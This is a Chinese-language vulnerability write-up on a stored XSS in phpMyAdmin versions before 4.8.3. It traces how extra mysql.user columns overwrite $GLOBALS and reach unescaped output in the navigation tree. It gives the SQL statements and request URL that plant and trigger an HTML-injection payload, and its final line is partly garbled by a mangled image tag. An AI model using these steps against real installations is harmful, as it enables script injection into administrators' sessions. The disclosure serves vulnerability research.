 Phpmyadmin \< 4.8.3 XSS
=======================

一、漏洞简介
------------

最近在审计phpmyadmin的时候发现了一个XSS漏洞，后来发现在版本大于4.8.3以后该漏洞被修复了。看了下之前公布的CVE，有个CVE和此漏洞很相似但没有漏洞细节，于是乎便有了这篇文章。

二、漏洞影响
------------

Phpmyadmin \< 4.8.3

三、复现过程
------------

在审计phpmyadmin时，我比较关注\$GLOBALS全局变量，该变量存储了本次请求的信息、phpmyadmin基本设置信息和phpmyadmin配置文件信息等。先看看/libraries/classes/Server/Privileges.php::3977的以下代码。

    foreach ($row as $key => $value) {
        $GLOBALS[$key] = $value;
    }

很明显，该处是\$GLOBALS的赋值操作，而\$row来自于对mysql.user表的查询结果，且\$user\_host\_condition可控，/libraries/classes/Server/Privileges.php::3966行

    public static function getDataForChangeOrCopyUser()
        {
            $queries = null;
            $password = null;

            if (isset($_REQUEST['change_copy'])) {
                $user_host_condition = ' WHERE `User` = '
                    . "'" . $GLOBALS['dbi']->escapeString($_REQUEST['old_username']) . "'"
                    . ' AND `Host` = '
                    . "'" . $GLOBALS['dbi']->escapeString($_REQUEST['old_hostname']) . "';";
                $row = $GLOBALS['dbi']->fetchSingleRow(
                    'SELECT * FROM `mysql`.`user` ' . $user_host_condition
                );

既然上述代码会将mysql.user中符合条件的行的列名和值写入\$GLOBALS中,我们便可通过添加mysql.user的列来往\$GLOBALS中写入任意键值。清楚思路后，我们看看哪里调用了Privileges.php的getDataForChangeOrCopyUser函数,发现在server\_privileges.php::178中对该函数有调用。

    list($queries, $password) = Privileges::getDataForChangeOrCopyUser();

这时我们来试试向\$GLOBALS中写一个\$GLOBALS\[\'xz\'\]=\'aliyun\'。进入mysql库，执行以下2条sql语句向user表添加xz字段，并插入一条数据。

    ALTER TABLE user ADD xz varchar(255);
    INSERT INTO `user` (`Host`, `User`, `Password`, `Select_priv`, `Insert_priv`, `Update_priv`, `Delete_priv`, `Create_priv`, `Drop_priv`, `Reload_priv`, `Shutdown_priv`, `Process_priv`, `File_priv`, `Grant_priv`, `References_priv`, `Index_priv`, `Alter_priv`, `Show_db_priv`, `Super_priv`, `Create_tmp_table_priv`, `Lock_tables_priv`, `Execute_priv`, `Repl_slave_priv`, `Repl_client_priv`, `Create_view_priv`, `Show_view_priv`, `Create_routine_priv`, `Alter_routine_priv`, `Create_user_priv`, `Event_priv`, `Trigger_priv`, `Create_tablespace_priv`, `ssl_type`, `max_questions`, `max_updates`, `max_connections`, `max_user_connections`, `plugin`, `authentication_string`, `xz`) VALUES ('127.0.0.1', 'test', '*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', '', '0', '0', '0', '0', '', '', 'aliyun');

在/libraries/classes/Server/Privileges.php::3980下断点

    $serverVersion = $GLOBALS['dbi']->getVersion();

然后构造http://127.0.0.1/phpMyAdmin-4.8.2/server\_privileges.php?change\_copy=aa&old\_username=test&old\_hostname=127.0.0.1&mode=5
参数请求，change\_copy随便给个参数即可，mode必须大于4否则新添加的数据会被删除。

![1.png](resource/Phpmyadmin4.8.3XSS/media/rId24.png)可以看到\$GLOBALS\[\'xz\'\]=\'aliyun\'已经成功赋值。

### 利用构造

有了可控的\$GLOBALS变量后，我们需要寻找触发点。要在一次请求便触发漏洞，公共页面是首选目标。通过全局搜索\$GLOBALS变量，发现在libraries/classes/Navigation/NavigationTree.php::1272的renderDbSelect函数中有使用未过滤的\$GLOBALS变量。

    $retval .= '<div>';
            $retval .= '<form action="index.php">';
            $retval .= Url::getHiddenFields($url_params);
            $retval .= '<select name="db" class="hide" id="navi_db_select">'
                . '<option value="" dir="' . $GLOBALS['text_dir'] . '">'

继续搜索调用renderDbSelect函数地方，发现libraries\\classes\\Navigation\\Navigation.php::62的getDisplay函数。

    public function getDisplay()
        {
            /* Init */
            $retval = '';
            $response = Response::getInstance();
            if (! $response->isAjax()) {
                $header = new NavigationHeader();
                $retval = $header->getDisplay();
            }
            $tree = new NavigationTree();
            if (! $response->isAjax()
                || ! empty($_REQUEST['full'])
                || ! empty($_REQUEST['reload'])
            ) {
                if ($GLOBALS['cfg']['ShowDatabasesNavigationAsTree']) {
                    // provide database tree in navigation
                    $navRender = $tree->renderState();
                } else {
                    // provide legacy pre-4.0 navigation
                    $navRender = $tree->renderDbSelect();

继续搜索实例化Naviagtion类并且调用了getDisplay函数的地方，发现libraries\\classes\\Header.php::440的getDisplay函数有调用。

    public function getDisplay()
        {
            $retval = '';
            ...(省略)
                    if ($this->_menuEnabled && $GLOBALS['server'] > 0) {
                        $nav = new Navigation();
                        $retval .= $nav->getDisplay();
                    }

搜索实例化Header-\>GetDisplay的方法，发现\\libraries\\classes\\Response.php::100的构造方法中实例化了Header类，而\$this-\_header又在\_getDisplay中被调用。\_getDisplay被\_htmlResponse调用，\_htmlResponse在response函数中被调用。

    private function __construct()
        {
            if (! defined('TESTSUITE')) {
                $buffer = OutputBuffering::getInstance();
                $buffer->start();
                register_shutdown_function(array($this, 'response'));
            }
            $this->_header = new Header();
            $this->_HTML   = '';
            $this->_JSON   = array();

\\libraries\\classes\\Response.php::266行

    private function _getDisplay()
        {
            // The header may contain nothing at all,
            // if its content was already rendered
            // and, in this case, the header will be
            // in the content part of the request
            $retval  = $this->_header->getDisplay();
            $retval .= $this->_HTML;
            $retval .= $this->_footer->getDisplay();
            return $retval;
        }

\\libraries\\classes\\Response.php::279行

    private function _htmlResponse()
        {
            echo $this->_getDisplay();
        }

\\libraries\\classes\\Response.php::438行

    public function response()
        {
            chdir($this->getCWD());
            $buffer = OutputBuffering::getInstance();
            if (empty($this->_HTML)) {
                $this->_HTML = $buffer->getContents();
            }
            if ($this->isAjax()) {
                $this->_ajaxResponse();
            } else {
                $this->_htmlResponse();
            }
            $buffer->flush();
            exit;
        }

这里注意\_\_construct中的register\_shutdown\_function函数，看php
manual，意思是说当脚本运行结束或遇到exit后会执行该response函数，![2.png](resource/Phpmyadmin4.8.3XSS/media/rId26.png)**意思就是说只要哪里实例化了Response类，在程序运行结束后就会执行response函数**。真好，回到server\_privileges.php::34行，发现有实例化Response。

    $response = Response::getInstance();
    $header   = $response->getHeader();
    $scripts  = $header->getScripts();

拥有以上调用链后，只需要控制\$GLOBAS的键为text\_dir,值为XSS
payload即可，进入mysql库，执行以下sql语句修改列名xz为text\_dir，并修改数据为XSS
Payload。

    ALTER TABLE `user` CHANGE `xz` `text_dir` VARCHAR(255) CHARACTER SET utf8 COLLATE utf8_bin NULL DEFAULT NULL;
    UPDATE `user` SET `text_dir` = '\"><img src><option dir=\"' WHERE `user`.`Host` = '127.0.0.1' AND `user`.`User` = 'test';

构造https://wiki.0-sec.org/img
src=\"https://wiki.0-sec.org/img/69c5e770161c4eaeb6d839977209edf2.png\"
alt=\"3.png\" class=\"large\" onclick=\"window.open(this.src)\" /\>成功触发XSS

参考链接
--------

> https://xz.aliyun.com/t/7797
